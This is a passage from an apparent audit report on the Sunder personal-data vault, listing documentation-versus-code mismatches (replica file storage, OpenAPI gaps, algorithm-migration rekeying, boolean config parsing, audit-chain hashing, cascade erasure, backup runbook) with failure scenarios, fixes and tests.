3. A later `GET /v1/files/{id}?purpose=support` is routed to replica B. `Peek` succeeds — all metadata and the wrapped DEK are in PostgreSQL — so the handler writes `200`, `Content-Type` and `Content-Length: <size>` (`internal/api/files.go:117-119`).
4. `Files.Download` calls `f.Store.Get(ctx, storageKey)` (`files.go:344`), which returns an `os.ErrNotExist`-wrapped error from `local.go:144`.
5. The handler can only log and return (`api/files.go:120-125`): the client receives HTTP 200 with a declared Content-Length and a zero-byte body.
6. Roughly (N-1)/N of downloads fail this way, and `sunder retention run`'s file GC on any one replica deletes only the objects that replica holds.

**Impact.** Uploaded personal data appears intermittently and irrecoverably missing in a configuration the docs describe as supported and stateless. Because the record key and DEK live in PostgreSQL, a DB-only backup restore looks complete while every file is unrecoverable (compounds DOCS-14). Mitigating factor: the Helm chart exposes no file-vault settings at all (`grep FILES_ deploy/helm`: no hits), so reaching this needs an operator to hand-roll local storage across replicas.

**Root cause.** F5 added a second node-local state class after the statelessness claim was written; the local-keystore caveat was propagated to compose and Helm docs but the local file-vault caveat was not, and config validation does not tie `FilesStorage=local` to a single-instance assumption.

**Fix.** Add the caveat everywhere the keystore one appears: `file-vault.md`, `multi-replica.md`, `docs/CONFIG.md`'s file-vault table, and the Helm chart (refuse `filesStorage: local` with `replicaCount > 1`, or require a ReadWriteMany PVC). State plainly that `local` is single-instance-only and `s3` is the multi-replica driver. Emit the startup-warning pattern used for `SUNDER_SHARES_PUBLIC` (`server.go:430`) when `FilesStorage=="local"`.

**Test required.** An e2e test running two `api.Server` instances against one database with `FilesStorage=local` and distinct `FilesDir`s: upload through A, download through B, assert a full-length body. Today it returns 200 with 0 bytes.

### DOCS-5 - OpenAPI contract — presented as "the source of truth" — omits `phone_suffix`, `user_id`, `cascade`, `linked` and `unlock_required`, and its `LookupRequest` schema rejects a valid F2 request
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `api/openapi.yaml:1594-1612` (`LookupRequest`), `:185-231` (`/v1/lookup` responses), `:621-652` (`/v1/dsr/erase`), served at `internal/api/server.go:96`; vs `internal/service/lookup.go:20-32` (`PhoneSuffix`, `UserID`), `internal/api/lookup.go:43-49,75-78` (`unlock_required`), `internal/api/gdpr.go:54-71` (`Cascade`, `linked`); claim at `docs-site/docs/dev/sdks-and-api.md:100-103`

**Problem.** `sdks-and-api.md:100` calls `api/openapi.yaml` "the source of truth for every request/response schema and error response", and `internal/api/openapi_coverage_test.go` verifies only that every ROUTE and method appears — its own header says so. Grepping the 1788-line spec for `phone_suffix`, `user_id`, `X-Sunder-User-Id` and `unlock_required` returns nothing, despite `docs/CONFIG.md:199-210` documenting `user_id` as the P4.2 operator-attribution field on the lookup body and the `X-Sunder-User-Id` header on GET routes, and `CONFIG.md:222-226` documenting `phone_suffix` as the F2 lookup key. `LookupRequest` additionally declares `anyOf: [required:[email], required:[phone]]` (`:1610-1612`). `/v1/dsr/erase` (`:621-652`) declares `required: [cid]` with `cid` as the only property and a 200 schema of only `{erasure_id, scopes}`; `internal/api/gdpr.go:54-71` decodes `Cascade []string` and returns `{erasure_id, scopes, linked}`. `grep cascade docs/API.md` returns nothing, and `API.md:224` still says `Body {"cid": "..."}`. `/v1/lookup`'s 403 references `#/components/responses/Forbidden` ("`error` is `forbidden`") while `api/lookup.go:75-78` returns 403 `{"error":"unlock_required"}` under `SUNDER_SEARCH_UNLOCK=true`.

**Why it matters.** The spec is what generated clients and schema-validating gateways enforce.

**Failure / attack scenario.**
1. A team generates a client from `/openapi.yaml`, or puts a validating gateway in front of Sunder as the spec invites.
2. They enable `SUNDER_SEARCH_PHONE_SUFFIX=true` and issue `POST /v1/lookup {"phone_suffix":"0957779999"}` — the call the docs and demo advertise.
3. The generated client has no `phone_suffix` field; a validating gateway rejects the body outright because `anyOf` requires `email` or `phone`. The feature is unreachable through the documented contract.
4. Separately, an operator enables `SUNDER_SEARCH_UNLOCK=true`; every SDK maps the 403 `unlock_required` to generic `forbidden` (`sdks/go/errors.go:80-95,100-124` has no `unlock_required` entry, so `mapError` falls through to status-based mapping), so callers cannot distinguish "mint an unlock token" from "you lack the action".
5. A privacy officer building erasure tooling from the spec never learns `cascade` exists, so linked sub-accounts silently go un-erased and the `linked[]` report is dropped.

**Impact.** Three shipped features (F2 phone-suffix search, P4.2 operator attribution, F7 cascade erasure) are absent from the machine-readable contract the project designates as authoritative, and one of them is the explicit safety control `sub-accounts.md:46` says prevents accidental child-data deletion. The `anyOf` is worse than an omission: it makes a supported request provably invalid against the published schema. No runtime security consequence — the server accepts the fields regardless.

**Root cause.** Route-level coverage tests gate presence only; no test compares request/response struct fields against the spec, so field-level drift accumulated across P4.2/F2/F7.

**Fix.** Add `phone_suffix` and `user_id` to `LookupRequest` and relax the `anyOf` to include `required:[phone_suffix]`; document `X-Sunder-User-Id` as a header parameter on the GET routes that read it; add `cascade` to the erase request schema and `linked` to its 200 schema; add a dedicated 403 response carrying an `unlock_required` example for `/v1/lookup` and the bulk token routes; add `unlock_required` to `docs/API.md`'s error-code list and to the SDK taxonomy table. Mirror the erase changes into `docs/API.md`'s `POST /v1/dsr/erase` section.

**Test required.** Extend `internal/api/openapi_coverage_test.go` to reflect over each handler's decoded request struct and each response map and assert every JSON tag appears in the corresponding spec schema — the field-level analogue of the existing route-level check.

### DOCS-6 - Algorithm-migration runbook claims the rekey sweep converts everything to the configured AEAD; `value_tokens` and `person_record_keys` are hard-coded to `aes256gcm` and the documented verification query cannot see them
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `docs/RUNBOOK-ALG-MIGRATION.md:34-52` (steps 3-4), `:1-8`; `docs-site/docs/admin/rotation-and-rekey.md:112-123`; vs `internal/service/rekey.go:280-289` (value_tokens sealed with literal `"aes256gcm"`, column set to `alg='aes256gcm'`), `:318-328` (person_record_keys, same), contrasted with `:369-375` (cid_blob_versions correctly uses `c.PII.Algorithm()`)

**Problem.** The runbook's purpose is a compliance- or research-driven move off a deprecated AEAD. Step 3 says "The sweep decrypts each blob with its stored key/algorithm and re-encrypts under the newest key and the configured algorithm", and step 4's verification is `SELECT pii_alg, count(*) FROM cids WHERE pii_encrypted IS NOT NULL GROUP BY pii_alg;` with "Expect a single row with the new algorithm." But `rekeyVaults` seals `value_tokens.ciphertext` and `person_record_keys.wrapped` with the literal `"aes256gcm"` regardless of `SUNDER_PII_ALG` (`rekey.go:280,323`) and writes `alg='aes256gcm'` into both columns. The verification query inspects only `cids`. `portal_outbox.payload` (sealed at `portal.go:205` with `p.Contacts.PII.Algorithm()`) is never rekeyed at all — `grep portal_outbox internal/service/rekey.go` returns no hits (see GAP-1).

**Why it matters.** The two tables left behind hold the F4 value vault and the crypto-shredding pivot for the entire file vault.

**Failure / attack scenario.**
1. Policy deprecates AES-GCM; operator follows the runbook verbatim: `keys rotate -kind pii-kek`, set `SUNDER_PII_ALG=xchacha20poly1305`, roll, `sunder keys rekey -batch 500` until 0.
2. `rekeyVaults` re-wraps every value token and every per-person record key under the new KEK but seals them with `aes256gcm`.
3. Step 4's query over `cids` returns a single `xchacha20poly1305` row.
4. Operator records the migration as complete.
5. Every F4 tokenized value (IBAN/PAN/national id) and the record key that wraps every F5 file DEK are still protected by the deprecated algorithm, and nothing in the runbook would reveal it.

**Impact.** A compliance attestation produced by following the runbook is wrong, and the residual exposure covers the highest-sensitivity data classes rather than a marginal remainder.

**Root cause.** `rekeyVaults` was written for KEK rotation, where the algorithm is incidental; the literal was never revisited when the runbook was framed as an algorithm migration, and step 4 was written against `cids` only.

**Fix.** Either (a) make `rekeyVaults` honour `c.PII.Algorithm()` for both tables, mirroring `rekey.go:369-375`, and drop the literals; or (b) state in the runbook that `value_tokens.ciphertext` and `person_record_keys.wrapped` are always AES-256-GCM by design and explain why. Either way extend step 4:
```sql
SELECT 'cids' t, pii_alg a, count(*) FROM cids WHERE pii_encrypted IS NOT NULL GROUP BY 2
UNION ALL SELECT 'value_tokens', alg, count(*) FROM value_tokens GROUP BY 2
UNION ALL SELECT 'record_keys', alg, count(*) FROM person_record_keys GROUP BY 2
UNION ALL SELECT 'versions', alg, count(*) FROM cid_blob_versions GROUP BY 2;
```

**Test required.** Extend `internal/service/tunables_test.go`'s live-algorithm-migration case: set `PIIAlg=xchacha20poly1305`, mint a value token and a file, run `Rekey`, assert `SELECT DISTINCT alg FROM value_tokens` and `FROM person_record_keys` equal the configured algorithm. Today both return `aes256gcm`.

### DOCS-7 - "A typo can never silently fall back to a default" is false for every boolean `SUNDER_*` variable and for any variable set to the empty string
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `docs/CONFIG.md:135-137`; vs `internal/config/config.go:126-130` (`getenv` treats `""` as unset) and the ten `os.Getenv(...) == "true"` comparisons at `config.go:179,181,184,248,249,250,251,259,260` plus `SUNDER_AUDIT_SEAL_EXTERNAL`

**Problem.** `CONFIG.md:135-137` states: "Invalid values (unparseable durations, out-of-range numbers, unknown algorithm names) fail startup with a specific error - a typo can never silently fall back to a default." Every boolean setting is parsed as `os.Getenv(KEY) == "true"` with no validation branch, so `1`, `TRUE`, `True`, `yes`, `on` — all conventional and all accepted by most container tooling — evaluate to false with no error and no log line. Separately, `getenv` returns the default whenever the variable is set to the empty string, so `SUNDER_AUDIT_SEALING=""` or `SUNDER_PII_ALG=""` silently defaults (behaviour the codebase already acknowledges in `api.TestEmptySealingConfigDoesNotOverrideProcessMode`).

**Why it matters.** Two of the affected booleans select security postures.

**Failure / attack scenario.**
1. An operator writes `SUNDER_REDIS_FAIL_CLOSED: 1` in a Helm values file (or `=True` in a systemd unit), intending the strict posture `multi-replica.md:80-85` describes.
2. `config.go:184` evaluates `"1" == "true"` → false. Startup succeeds with no warning.
3. `RedisLimiter.failed` (`internal/ratelimit/redis.go:204-210`) returns `!l.FailClosed` = true, so during a Redis outage every bucket except the hard-coded `portal:`/`claims:` prefixes — including `authfail:` (the credential-stuffing throttle) and `share-public:` — fails OPEN.
4. The operator's runbook, dashboards and threat assessment all record the fleet as fail-closed.
5. The same silent inversion applies to `SUNDER_SEARCH_UNLOCK` (which gates the whole unlock branch at `internal/api/lookup.go:55`) and `SUNDER_PORTAL_ENABLED`.

**Impact.** Two operator-selectable security postures can be silently absent while configuration review shows them enabled, in direct contradiction of the sentence that tells operators typos are impossible. The empty-string path additionally means an unset-but-declared env var (common with `env: [{name: X, valueFrom: ...}]` resolving to empty) silently reverts to the default. Compounds AUTHZ-3, whose fail-open default is the state this typo silently preserves.

**Root cause.** Boolean parsing was written as a one-line equality check and never brought under the validation discipline applied to durations, integers and enums; the CONFIG.md sentence generalises from the three validated classes it enumerates.

**Fix.** Add `getbool(key string, def bool) (bool, error)` accepting `true/false/1/0/yes/no/on/off` case-insensitively and returning a specific error otherwise; route all boolean settings through it. Make `getenv` distinguish unset from empty and reject an explicitly-empty value for enum-valued variables. Until then, narrow the CONFIG.md sentence and add: "Boolean variables accept the exact lowercase string `true`; any other value, including `1` and `TRUE`, means false."

**Test required.** `t.Setenv("SUNDER_REDIS_FAIL_CLOSED", "1")` and assert `FromEnv` returns an error (or that `RedisFailClosed` is true). Today it returns a Config with `RedisFailClosed=false` and no error.

### DOCS-8 - `audit-chain.md` states `user_id` is deliberately excluded from the chain hash; `canonical()` includes it for `hash_v>=2` and all new rows seal under v2
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `docs-site/docs/admin/audit-chain.md:107-113`; `internal/audit/audit.go:92-95` (stale struct comment) vs `:117-131` (`canonical`), `:182,189-192` (sync insert with `hashV2`), `:338` (seal sets `hash_v=hashV2`), `:404-408` (Verify honours per-row `hashV`); contradicted correctly by `docs/THREAT-MODEL.md:184-189`

**Problem.** `audit-chain.md:107-113` says `user_id` "is deliberately NOT part of the hash (`canonical()` never includes it)... The append-only trigger, not the chain hash, is what pins its value once written." The implementation does the opposite: `canonical` appends `e.UserID` whenever `v >= hashV2`, `hashV2 = 2` (`audit.go:114`), the sync path inserts with `hash_v=hashV2`, and the sealer sets `hash_v=$4` to `hashV2` on every row it seals. `THREAT-MODEL.md:184-189` states the correct behaviour, and `TestUserIDIsTamperEvident` asserts it. The stale claim is duplicated verbatim as a code comment on the `Entry` struct (`audit.go:92-95`) — the comment a maintainer reads first.

**Why it matters.** Whether operator attribution is cryptographically protected is the single question the audit chain exists to answer.

**Failure / attack scenario.**
1. A compliance reviewer consults the admin documentation set to determine what the tamper-evident chain covers.
2. `audit-chain.md` tells them operator attribution is protected only by a database trigger — i.e. that a DBA who can defeat the trigger can rewrite `user_id` without breaking verification.
3. They discount `user_id` in the accountability model. Or, conversely, a maintainer reading `audit.go:92-95` "fixes" `canonical()` to match the comment and silently invalidates every row sealed since migration 0033.

**Impact.** Two documents describing the same field disagree about the system's central accountability property, and the misleading copy is duplicated in a load-bearing source comment, making an incorrect "fix" a plausible next edit.

**Root cause.** Migration 0033 introduced the versioned canonical tuple and moved `user_id` inside the hash; `THREAT-MODEL.md` was updated, the docs-site page and the struct comment were not.

**Fix.** Rewrite `audit-chain.md:107-113`: `user_id` IS part of the hashed tuple for rows with `hash_v >= 2` (every row sealed since migration 0033); rows sealed under v1 keep the v1 tuple permanently and for those the trigger alone pins the value. Fix the same claim in the `audit.go:92-95` struct comment. Keep the client-asserted/unverified caveat, which is correct in both places.

**Test required.** Move the versioning note next to `canonical()` so the comment is self-guarding; assert in `TestUserIDIsTamperEvident` both that a v2 row's recomputed hash changes when `user_id` changes (already covered) and that new rows are sealed with `hash_v=2`.

### DOCS-9 - `rights-and-consent.md` states search tokens survive retention and consent decisions survive erasure; the implementation deletes both
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `docs-site/docs/gdpr/rights-and-consent.md:82` and `:89`; vs `internal/service/gdpr.go:826-840` (`RunRetention` deletes `person_tokens` when nothing live remains) and `gdpr.go:537` (`erasePerson` DELETEs `consents`); contradicted correctly by `docs/API.md:250-256` and `:210-212`

**Problem.** Two "security notes" in the GDPR user-facing page describe behaviour the code reversed. (a) `:82`: "Search tokens survive a retention wipe - it is not an erasure" (repeated later as "Retention wipes the blob, not the search tokens or the person") — but `RunRetention` deletes `person_tokens` for the wiped person inside the same transaction once no live blob, un-GC'd file, standing share, link or live value token remains (the S6 fix). (b) `:89`: "**Consent decisions survive erasure**; attribute data does not. The `granted:false` accountability record stays for audit purposes even after the person is tombstoned" — but `erasePerson` runs `DELETE FROM consents WHERE cid IN (SELECT cid FROM cids WHERE person_id=$1)`.

**Why it matters.** This is the page aimed at the people who write the controller's GDPR procedures.

**Failure / attack scenario.**
1. A DPO writes the organisation's Article 17 / storage-limitation procedure from the docs-site GDPR pages.
2. They record that consent history is retained post-erasure as the accountability artefact, and that retention sweeps leave the person findable.
3. After an erasure they query `consents` to produce the lawful-basis history for a supervisory-authority request and find nothing — the accountability record is actually the immutable `consent.set` audit trail (`gdpr.go:519-522` comment), a different table with a different query.
4. Conversely, they assume a retention-swept contact is still resolvable by `POST /v1/lookup` and build a re-identification-after-wipe workflow that silently 404s.

**Impact.** The organisation's written GDPR procedure documents the wrong retention outcome for two data classes. Both errors are safe-direction for the data subject but wrong for the controller's accountability obligations.

**Root cause.** The S6 retention fix and the erasure consent-deletion change updated `docs/API.md` but not the parallel docs-site page, which restates the same claims in its own words.

**Fix.** Rewrite `:82` to match `docs/API.md:250-256` — search tokens are deleted by the retention sweep once nothing live remains for the person anywhere (no blob, no un-collected file, no standing share, no link, no live value token). Rewrite `:89` to match `docs/API.md:210-212` — consent STATE is deleted by erasure; the accountability record is the immutable `consent.set` trail in the audit chain. Deduplicate: have the docs-site page link `docs/API.md` rather than restating.

**Test required.** Behaviour is already covered by `TestS6_RetentionKillsLookupAndHistory` and `TestFullDataErasureExercisesAllDeletions`; the gap is editorial. An mkdocs-time link from each security-note bullet to the authoritative section prevents re-drift.

### DOCS-10 - Erasure is documented as "one transaction" and delivery as reliable; cascade erasure is one transaction per person and webhook delivery is at-least-once with no idempotency guidance
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `docs/API.md:224-232`; `docs-site/docs/gdpr/erasure-webhooks.md:7,28,55`; vs `internal/service/gdpr.go:385-437` (`EraseWithCascade`: one `erasePerson` call per person, each opening its own tx at `:446`) and `gdpr.go:700-726` (POST outcome vs DB record)

**Problem.** `docs/API.md:224-232` describes erasure as "In one transaction: every scope's blob is wiped ... the person becomes a tombstone ... and one erasure event per scope is queued", and mentions cascade nowhere. That holds for a single person but not for F7 cascade: `EraseWithCascade` erases the parent, commits, then calls `erasePerson` once per cascaded child, each with its own transaction and its own inline delivery attempt. A failure or shutdown midway leaves the parent erased and some children not. Separately, delivery is at-least-once: if the receiver processes the POST but the response is lost or the 5s `SUNDER_WEBHOOK_TIMEOUT` expires, `ok` is false and the row returns to PENDING (`gdpr.go:709-724`) for redelivery — yet neither `erasure-webhooks.md`'s steps nor its six security notes tell receivers their handler must be idempotent, and the sequence diagram at `:11-30` shows only the clean success/refusal paths.

**Why it matters.** Both gaps produce silent, legally-relevant divergence between what the controller believes happened and what happened.

**Failure / attack scenario (non-atomic cascade).**
1. Officer calls `POST /v1/dsr/erase {"cid":"CID-parent","cascade":["guardian"]}` for a parent with three guardian-linked children.
2. Parent commits (`gdpr.go:598`).
3. Child 1 commits.
4. During child 2 the pod is terminated or the pool errors; `EraseWithCascade` returns `cascade erase of CID-x: ...` with `erasureID` zeroed, and the HTTP layer returns 500 with no body.
5. The caller sees a failed request and has no `erasure_id`, `scopes` or `linked[]` — but the parent and child 1 are already tombstoned and their webhooks queued.
6. A retry is rejected: the parent's `erasePerson` error is returned unconditionally at `:421-423` while `ErrValidation` is tolerated only for children at `:430`, so the whole retry fails and children 2-3 are never erased.

**Failure / attack scenario (duplicate delivery).**
1. The CRM receives the POST, deletes the record, and its 200 is lost to a proxy timeout.
2. `ok` is false; the row returns to PENDING.
3. The next sweep redelivers the identical body; a non-idempotent receiver double-processes it.

**Impact.** An operator relying on documented atomicity has no correct recovery procedure for a partial cascade — the API returns 500 without telling them which persons committed, and the retry path is blocked by the parent's own guard. Receivers built from `erasure-webhooks.md` have no reason to be idempotent, so a lost ACK can cause duplicate downstream deletions. Shares a root cause with GDPR-ERASURE-4 and TESTS-6.

**Root cause.** The "one transaction" sentence predates F7, which was deliberately implemented as one transaction per person; the delivery documentation describes intent rather than the claim/POST/settle semantics the code implements.

**Fix.** In `docs/API.md` and `sub-accounts.md`, state that each person in a cascade is erased in its own transaction and that a partial cascade is possible, and document the recovery procedure — or, better, change `EraseWithCascade` to tolerate an already-erased parent and continue, making re-issuing the same call the recovery. In `erasure-webhooks.md`, add an explicit "delivery is at-least-once" note: dedupe on `(erasure_id, scope)` and make the handler idempotent; add the lost-ACK branch to the sequence diagram.

**Test required.** Inject a failure on the second child's transaction; assert the returned error names the persons already committed (today it does not) and that re-issuing the same request completes the remaining children.

### DOCS-11 - THREAT-MODEL's "Deliberate non-goals" excludes selective disclosure and the privacy portal, both shipped and both live attack surfaces; README's throughput analysis is the version THREAT-MODEL explicitly retracted
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `docs/THREAT-MODEL.md:33-40` and `docs/DESIGN.md:197-198` vs `docs/API.md:132-145` + `docs-site/docs/concepts/selective-disclosure.md` + `internal/service/predicates.go`, and `internal/api/portal.go` + `docs-site/docs/gdpr/privacy-portal.md`; `README.md:75-80` vs `docs/THREAT-MODEL.md:92-101`

**Problem.** (a) `THREAT-MODEL.md:35-40` declares as deliberate non-goals "No verifiable credentials/selective disclosure" and "The self-service privacy portal remains v2 (it requires citizen authentication - wallet/OTP - outside this layer)", and `DESIGN.md:197-198` repeats "No verifiable credentials / selective disclosure yet". Both ship: `internal/service/predicates.go` exists and `api/openapi.yaml:1525-1528,1632` documents `share_predicates` and the evaluated predicate claims; `internal/api/portal.go` exists, config carries `SUNDER_PORTAL_ENABLED`, and `internal/api/server.go:213-215,392-418` mounts the portal on a dedicated listener or the main mux. Both ARE analysed later in the same file (portal enumeration at `:56-86`, the audit-content boundary at `:43-53`), so the non-goals paragraph contradicts the document it heads. (b) `README.md:75-78` states "instance throughput is bounded by storage commit latency (~460 audited ops/s where `fdatasync` runs at 2,000/s)", which `THREAT-MODEL.md:94-101` formally retracts under "**Corrected 2026-08-25**" with measurements showing the advisory lock is the ceiling (117 of 124 samples in `Lock/advisory` vs 3 in `IO/WALSync`).

**Why it matters.** The non-goals paragraph is what a third-party reviewer uses to bound scope.

**Failure / attack scenario.**
1. A security reviewer reads "Deliberate non-goals" to bound a third-party assessment.
2. They exclude selective disclosure and the portal as out of scope / not shipped.
3. The portal is the system's only unauthenticated, citizen-facing surface (`POST /portal/api/start` is fully anonymous, `api/server.go:214`) and the one whose enumeration resistance is a measured, fragile property (see TESTS-2). It goes unreviewed.
4. Separately, an operator sizing a deployment reads the README, concludes faster storage will lift the ceiling, provisions NVMe, and observes no improvement — the retraction lives in a file they had no reason to open.

**Impact.** The document that defines the system's security scope disclaims two of its shipped surfaces, one of which is the only anonymous one; the README carries a capacity-planning conclusion the project has formally measured and withdrawn.

**Root cause.** Both paragraphs are pre-P2.3/P2.5 text that survived the feature landings; the corrections were made in the deep-dive sections rather than at the top-level statements.

**Fix.** Rewrite `THREAT-MODEL.md:35-40` to keep "no cross-vendor federation, no OIB resolution, no multi-tenancy" and replace the selective-disclosure and portal disclaimers with forward references to `:43-53`, `:56-86` and the F-series sections. Apply the same edit to `DESIGN.md:197-198`. Replace `README.md:75-80` with the corrected finding (the advisory lock is the ceiling; async sealing removes it) and link `THREAT-MODEL.md:92-101`.

**Test required.** No code test applies. A docs CI grep for retracted phrases ("fdatasync", "portal remains v2", "no verifiable credentials") would catch regressions of this class, alongside the existing `mkdocs build --strict` job.

### DOCS-14 - Backup/DR runbook's "what state exists" table omits the file-vault object store, so a restore following it loses every uploaded file
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `docs/RUNBOOK-BACKUP-DR.md:5-15` (state table), `:17-30` (backup), `:32-52` (restore), `:70-76` ("what is deliberately NOT recoverable"); vs `internal/service/files.go` (`files.storage_key` objects live only in the storage driver), migration 0026 (`person_record_keys`/`files`), `docs-site/docs/admin/backup-dr.md`

**Problem.** The runbook opens with a three-row table of "what state exists" — PostgreSQL, key material, exported anchors — and builds its central rule ("database and key material are one unit") on it. The F5 file vault is a fourth state class the table omits: file ciphertext lives only in the storage driver's backing store (`SUNDER_FILES_DIR` on local disk, or the S3 bucket), while its wrapped DEK (`files.dek_wrapped`) and the record key that unwraps it (`person_record_keys.wrapped`) live in PostgreSQL. Neither the backup section, nor the restore procedure, nor the not-recoverable section mentions files. The spot-check in restore step 5 is "lookup → attribute read → OTI issue/verify" and passes with the entire file vault missing. `grep -i 'file vault|filestore|FILES_DIR|bucket' docs-site/docs/admin/backup-dr.md` returns nothing, so the mirrored page has the same gap.

**Why it matters.** A DR rehearsal conducted per the runbook validates a restore whose own verification steps cannot detect the loss.

**Failure / attack scenario.**
1. Operator enables the file vault and follows the runbook exactly: WAL archiving plus daily base backups for Postgres, encrypted copies of the keystore directory, `.tsr` sync to write-once storage. Nothing tells them to back up the object store.
2. The host or bucket is lost.
3. They restore Postgres and the keystore. `readyz` goes green, `verify-audit` reports `chain intact`, and step 5's spot-check passes.
4. Every `GET /v1/files/{id}` now returns 200 with the recorded Content-Length and an empty body (`internal/api/files.go:117-125`, since `Peek` succeeds from database metadata and `Store.Get` fails).
5. The `files` rows, sizes, names and sha256 digests all survive, so inventory reports show the files as present. The loss is discovered only when someone downloads one.

**Impact.** Undetected loss of an entire personal-data class held under a legal obligation. Compounds DOCS-4 (which produces the same 200-with-empty-body symptom in normal operation) and DOCS-15 (which documents that symptom as an error).

**Root cause.** The runbook predates F5; the state inventory was never revisited when a second out-of-database data store was introduced.

**Fix.** Add a fourth row: "File vault objects | `SUNDER_FILES_DIR` or the S3 bucket | uploaded files unrecoverable — the database keeps their metadata, DEK and record key, so loss is invisible until download". Add a backup step (snapshot/replicate the bucket, or back up the directory alongside the keystore), a restore step, and extend the step-5 spot-check to include one file download. Mirror into `docs-site/docs/admin/backup-dr.md`. Note the ordering constraint: restoring the object store WITHOUT the matching `person_record_keys` rows leaves the ciphertext permanently unopenable — crypto-shredding cuts both ways.

**Test required.** Extend the e2e-demo CI job: upload a file, dump and restore the database into a fresh instance pointed at a fresh empty file directory, and assert the documented restore verification catches the missing object rather than reporting success.

### LOW / INFORMATIONAL documentation findings

| ID | Severity | Title | Location | Fix |
|---|---|---|---|---|
| DOCS-12 | LOW | `sunder keys retire` prints "it no longer matches lookups nor verifies tokens" in the present tense; across replicas a retired key keeps verifying and matching for up to `keyRingTTL` (30s) because `Invalidate` is process-local | `cmd/sunder/main.go:606-607`; `internal/service/keyring.go:29,90-94,98-110`; `docs-site/docs/admin/rotation-and-rekey.md:129-133,143-147` frames the TTL as rotation latency only | Print the propagation bound as `rotate` already does (`main.go:591`): "running servers stop accepting this version within 30s (keyring cache TTL) - restart the fleet to cut it off immediately"; add a security note distinguishing benign rotation latency from a retirement incident-response window; consider LISTEN/NOTIFY convergence |
| DOCS-13 | LOW | "All six SDKs wrap the same `/v1/*` surface" — they cover 7 of ~25-30 v1 routes; consent, DSR, tokens (incl. bulk), files, shares, links, unlock, admin audit, external claims and versions are all unwrapped, and `unlock_required` has no code-map entry | `docs-site/docs/dev/sdks-and-api.md:36-38`, `README.md:115-116,130-133`; `sdks/go/sunder.go:114-330`, `sdks/python/sunder_client/__init__.py:195-295`; routes `internal/api/server.go:164-203`; `sdks/go/errors.go:80-95,100-124` | Replace the sentence with an explicit coverage table per SDK plus a pointer to `api/openapi.yaml`; add `unlock_required` as a distinct sentinel to each taxonomy; add `phone_suffix`/`user_id` to each lookup method; if cross-SDK parity is a guarantee, add a shared conformance fixture over `operationId`s |
| DOCS-15 | LOW | `file-vault.md` promises a truncated object is "reported as an error, never as a successful short read"; the wire response is 200 with a declared `Content-Length` and a short body, because headers are written before `Download` runs | `docs-site/docs/concepts/file-vault.md:76-80`; `internal/api/files.go:117-125` (its own comment: "Headers may already be gone..."); detection at `internal/service/files.go:352-358` | Reword to state that detection is server-side and logged, and that clients MUST verify received bytes against `Content-Length` (and the `sha256` from list/upload metadata) and treat a mismatch as a failed download; optionally buffer small files so the status can still change |
| DOCS-16 | LOW | Config-reference gaps: `SUNDER_URL` and `PLAYGROUND_SCENARIOS` absent from the playground env table; the s3-only `SUNDER_FILES_MAX_MB<=256` cap documented only in a concepts side note; `SUNDER_VERSIONS_TTL`'s 3650-day bound undocumented; the F3 example names `email_1`, a slot `storeIndexed` can never create (it emits `email`, `email_2`, `email_3`) | `cmd/playground/main.go:31,32,38` vs `docs-site/docs/get-started/playground.md:83-88`; `internal/config/config.go:283-285` vs `docs/CONFIG.md:234`; `config.go:265` vs `CONFIG.md:259`; `CONFIG.md:196-197` vs `internal/service/contacts.go:266-272` | Add the two playground rows and promote `PLAYGROUND_TRUSTED_PROXY_HOPS`; change `CONFIG.md:234` to "1-4096 (1-256 with the s3 driver - its single-PUT cap)"; document the 3650d bound; change the example to `email_2`; add a CI script diffing every `SUNDER_*` literal in `config.go`/`main.go` against the names in the reference tables |

### Documented guarantees the implementation does not provide

| Doc claim | Source | Reality | Finding |
|---|---|---|---|
| The sealer needs "UPDATE on the three seal columns only" on `audit` | `docs/CONFIG.md:75`, `docs-site/docs/admin/audit-operations.md:53`, `docs-site/docs/install/configuration.md:19,90`, `docs/THREAT-MODEL.md:143-147` | The seal statement updates four columns (`hash_v` too, `audit.go:338`); the same process also UPDATEs `audit_read_buckets.sealed_at` and INSERTs the hourly digest into `audit` (`reads.go:238,271`). The documented grant makes sealing fail on every cycle | DOCS-1 |
| "The `sunder_audit_unsealed_rows` gauge is the alarm" for the async sealing window | `docs/THREAT-MODEL.md:150-152`, `docs/CONFIG.md:105-107` | No rule in `ops/prometheus-alerts.yaml` and no panel in `ops/grafana-dashboard.json` references the series; `monitoring.md`'s gap list omits it. Nothing pages | DOCS-2, OPS-CLI-CONFIG-8 |
| "Sunder itself holds no state - point every replica at the same PostgreSQL"; "Stateless service (scale by replicas)" | `docs-site/docs/admin/multi-replica.md:26-28`, `docs/THREAT-MODEL.md:17` row 9, `docs-site/docs/install/postgres-sizing.md:5` | With `SUNDER_FILES_STORAGE=local` (the compose default) file ciphertext is node-local; a download routed to another replica returns 200 with an empty body. `KeyRing`, `CachingKeystore`, `uploadSem`, `enumWarned` and the in-memory limiter are per-replica too | DOCS-4, TESTS-12, CONCURRENCY-CORE-4, AUTHZ-3 |
| `api/openapi.yaml` is "the source of truth for every request/response schema and error response" | `docs-site/docs/dev/sdks-and-api.md:100-103` | `phone_suffix`, `user_id`, `X-Sunder-User-Id`, `cascade`, `linked` and `unlock_required` are absent; `LookupRequest`'s `anyOf` makes a supported F2 request invalid | DOCS-5 |
| The rekey sweep "re-encrypts under the newest key and the configured algorithm"; verify with a `cids`-only query expecting a single row | `docs/RUNBOOK-ALG-MIGRATION.md:34-52`, `docs-site/docs/admin/rotation-and-rekey.md:112-123` | `value_tokens.ciphertext` and `person_record_keys.wrapped` are sealed with the literal `"aes256gcm"` regardless of `SUNDER_PII_ALG`; `portal_outbox.payload` is never rekeyed at all. The verification query cannot see any of them | DOCS-6, GAP-1 |
